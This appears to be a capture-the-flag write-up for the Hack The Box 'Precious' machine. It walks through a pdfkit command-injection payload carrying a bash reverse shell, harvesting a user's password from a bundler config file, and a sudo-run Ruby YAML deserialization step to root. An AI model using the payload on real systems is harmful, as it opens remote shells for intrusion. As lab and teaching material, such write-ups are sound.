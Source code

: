 ```yaml
---
title: "Hack The Box - Precious [Easy]"
date: 2023-05-23T19:42:27+03:00
draft: false
tags: ["hackthebox"]
---
```


We begin with a simple web page that has an input, apparently this input turns a webpage to a PDF, I tried with hosting a page on my machine and tried to use it for the input. 

Then the website provided me with a PDF of the website that I've hosted, I've downloaded the PDF and used the `exiftool` to figure out what was generating this PDF file, from there I saw that it was generated by `pdfkit v0.8.6`. 

I went to google to check if there are any exploits and I found this:
- https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795

This apparently gives me a command injection exploit, and I tried the following payload:

```
http://myip:8080/?name=#{'%20`bash -c "bash -i >& /dev/tcp/myip/myport 0>&1"`'}
```

# Flag 1

This gave me a reverse shell for the user `ruby`, from this point I've run `linpeas.sh` to check how can I gain access to the user `henry` and I saw the file `/home/ruby/.bundle/config` and I went to check it.

```
$ cat /home/ruby/.bundle/config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:<passwod>"

```

I gained access to the user with an ssh login to the `hnery` user and gained the `user.txt` flag located in the home directory.

# Flag 2

```sh
henry@precious:~$ sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

This gives the clue of how to get the next flag, let's look what this file contains:

```ruby
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```

We have `YAML.load(File.read("dependencies.yml"))` which hints that we need to use the `dependancies.yml` file to gain root. 

Using google again to see how can we do that, this took me some time, but figuring out the attack surface is what is this all about. The attack surface is being the YAML loader, so I've tried to look for exploits there, and I found this:
- https://staaldraad.github.io/post/2021-01-09-universal-rce-ruby-yaml-load-updated/

I executed the `/usr/bin/ruby /opt/update_dependencies.rb` command with sudo and then using the `bash -p` I gained the root access. 